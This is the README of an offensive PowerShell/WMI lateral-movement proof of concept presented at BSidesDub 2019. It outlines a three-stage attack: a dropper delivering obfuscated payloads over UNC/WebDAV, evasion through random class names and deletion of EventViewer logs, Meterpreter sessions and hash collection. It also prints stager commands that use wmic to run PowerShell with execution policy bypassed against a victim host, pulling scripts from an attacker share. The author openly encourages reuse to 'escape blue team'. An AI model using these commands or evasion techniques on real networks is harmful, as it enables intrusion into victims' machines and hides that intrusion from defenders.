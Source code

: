 Fud WMI for lateral movement (PoC) - ##BsidesDub 2019## 
============

Author: kmkz - [@kmkz_security](https://twitter.com/kmkz_security)

## Intro

This repository contains the PowerShell WMI based Proof of Concept for advanced lateral movement as presented at BsidesDub 2019.

The main goal of this project was to demonstrate the possibilities an attacker might use to bypass detection mechanisms using many techniques in real-life condition.
It implement random class name derivation generation mechanism, payload obfuscation and EventViewer logs removal via WMI un-subscription.
Aditionaly, it use **WMI only** (no WinRM) and do not interact with registry keys to avoid registry monitoring based detection.

Of course, **feel free to reuse code parts for your own purpose in case of need to escape blue team or for simply test-it**.

## Details

   **Stage 1** (executed on attacker's side):
        The "stage 1" is a simple dropper for payload delivery through UNC/WebDAV using basic obfuscation (require admin. privs for RCE over WMI ofc).
	It is executed from attackers station (C2C) to run in-memory fud PowerShell without the well-known `IWR/IEX` method calls.

   [*] Notes:
        UNC/WebDAV could be replaced by WMI namespaces as presented in WmiSploit project `https://github.com/secabstraction/WmiSploit`.
        However, the executed command is then limited to 8190 chars due to `-EncodedCommand` usage for b64 payload, this is the reason why I prefered this method for the PoC.

        Note that .ps1 file is executed over WMI without `invoke-expression` (iex) nor `wget/invoke-webrequest` (iwr) method to prevent alerting.
        Classic stager from command line: 
	```
            wmic.exe /node:"Victime-PC" /user:WORKGROUP\admin process call create "PowErSheLl -eXecUtIonpOliCY BypAsS -NopRofilE -fILe \\Vboxsvr\shared\BSIDESIE\class-derivation.ps1"
	```

    
   **Stage 2** (executed on target):
         In-memory build stage 2 using "-File" parameter (obfuscated PowerShell with random Class Derivation).

         Randomly generated class derivation and "EventViewer" logs removing for detection mechanisms/blue team evasion.
         Stage 1 execution is not removed from logs for demo purpose, it should be modified for a total discretion ;).


   [*] Notes:
        C2C shell could be used in combination to unicorn to obtains Meterpreter session (stage 2 could be modified depending on the use case):
        
        Examples: `powershell.exe -eXecUtIOnpOlICy BypAsS -File "\\Vboxsvr\shared\BSIDESIE\pwner.ps1"`

        IMPORTANT: Payload delivery using "-File" parameter also permit to add hashes collection when payload (stage 2) is triggered.

   **stage 3** (executed on target):
        Payload execution and output push/pull via a random file located on attacker's server.
	
## Demo

![](PoC-demo.gif)


## Thanks

- @philiptsukerman - WMI guru - https://github.com/Cybereason/Invoke-WMILM
- @arno0x0x - how to say that... its scripts helped me so often during post-exploitation steps... - https://github.com/Arno0x
- @mattifestation - a ton of useful research and publications
- @secabstraction - https://github.com/secabstraction/WmiSploit
- @all: 'cause we all need others to go further!
